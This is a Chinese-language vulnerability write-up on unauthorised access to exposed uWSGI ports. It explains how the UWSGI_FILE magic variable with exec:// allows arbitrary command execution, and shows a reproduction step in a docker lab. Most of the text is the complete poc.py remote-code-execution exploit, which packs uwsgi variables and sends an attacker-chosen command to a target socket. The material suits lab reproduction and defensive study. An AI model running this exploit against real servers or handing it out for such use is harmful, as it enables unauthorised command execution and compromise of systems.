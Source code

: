 uWSGI 未授权访问漏洞
====================

一、漏洞简介
------------

WSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python
WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。

uWSGI支持通过魔术变量（Magic
Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量`UWSGI_FILE`，运用`exec://`协议执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

使用poc.py，执行命令`python poc.py -u your-ip:8000 -c "touch /tmp/success"`：

![1.png](./.resource/uWSGI未授权访问漏洞/media/rId24.png)

执行`docker-compose exec web bash`进入容器，可见`/tmp/success`已经成功执行：

![2.png](./.resource/uWSGI未授权访问漏洞/media/rId25.png)

    poc.py
    #!/usr/bin/python
    # coding: utf-8
    ######################
    # Uwsgi RCE Exploit
    ######################
    # Author: wofeiwo@80sec.com
    # Created: 2017-7-18
    # Last modified: 2018-1-30
    # Note: Just for research purpose

    import sys
    import socket
    import argparse
    import requests

    def sz(x):
        s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
        s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
        return s[::-1]


    def pack_uwsgi_vars(var):
        pk = b''
        for k, v in var.items() if hasattr(var, 'items') else var:
            pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
        result = b'\x00' + sz(pk) + b'\x00' + pk
        return result


    def parse_addr(addr, default_port=None):
        port = default_port
        if isinstance(addr, str):
            if addr.isdigit():
                addr, port = '', addr
            elif ':' in addr:
                addr, _, port = addr.partition(':')
        elif isinstance(addr, (list, tuple, set)):
            addr, port = addr
        port = int(port) if port else port
        return (addr or '127.0.0.1', port)


    def get_host_from_url(url):
        if '//' in url:
            url = url.split('//', 1)[1]
        host, _, url = url.partition('/')
        return (host, '/' + url)


    def fetch_data(uri, payload=None, body=None):
        if 'http' not in uri:
            uri = 'http://' + uri
        s = requests.Session()
        # s.headers['UWSGI_FILE'] = payload
        if body:
            import urlparse
            body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
            d = s.post(uri, data=body_d)
        else:
            d = s.get(uri)

        return {
            'code': d.status_code,
            'text': d.text,
            'header': d.headers
        }


    def ask_uwsgi(addr_and_port, mode, var, body=''):
        if mode == 'tcp':
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(parse_addr(addr_and_port))
        elif mode == 'unix':
            s = socket.socket(socket.AF_UNIX)
            s.connect(addr_and_port)
        s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
        response = []
        # Actually we dont need the response, it will block if we run any commands.
        # So I comment all the receiving stuff. 
        # while 1:
        #     data = s.recv(4096)
        #     if not data:
        #         break
        #     response.append(data)
        s.close()
        return b''.join(response).decode('utf8')


    def curl(mode, addr_and_port, payload, target_url):
        host, uri = get_host_from_url(target_url)
        path, _, qs = uri.partition('?')
        if mode == 'http':
            return fetch_data(addr_and_port+uri, payload)
        elif mode == 'tcp':
            host = host or parse_addr(addr_and_port)[0]
        else:
            host = addr_and_port
        var = {
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'REQUEST_METHOD': 'GET',
            'PATH_INFO': path,
            'REQUEST_URI': uri,
            'QUERY_STRING': qs,
            'SERVER_NAME': host,
            'HTTP_HOST': host,
            'UWSGI_FILE': payload,
            'SCRIPT_NAME': target_url
        }
        return ask_uwsgi(addr_and_port, mode, var)


    def main(*args):
        desc = """
        This is a uwsgi client & RCE exploit.
        Last modifid at 2018-01-30 by wofeiwo@80sec.com
        """
        elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
        
        parser = argparse.ArgumentParser(description=desc, epilog=elog)

        parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                            help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                            dest='mode', choices=['http', 'tcp', 'unix'])

        parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                            help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                            dest='uwsgi_addr')

        parser.add_argument('-c', '--command', nargs='?', required=True,
                            help='Command: The exploit command you want to execute, must have this.',
                            dest='command')

        if len(sys.argv) < 2:
            parser.print_help()
            return
        args = parser.parse_args()
        if args.mode.lower() == "http":
            print("[-]Currently only tcp/unix method is supported in RCE exploit.")
            return
        payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
        print("[*]Sending payload.")
        print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

    if __name__ == '__main__':
        main()

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/unacc/README.zh-cn.md
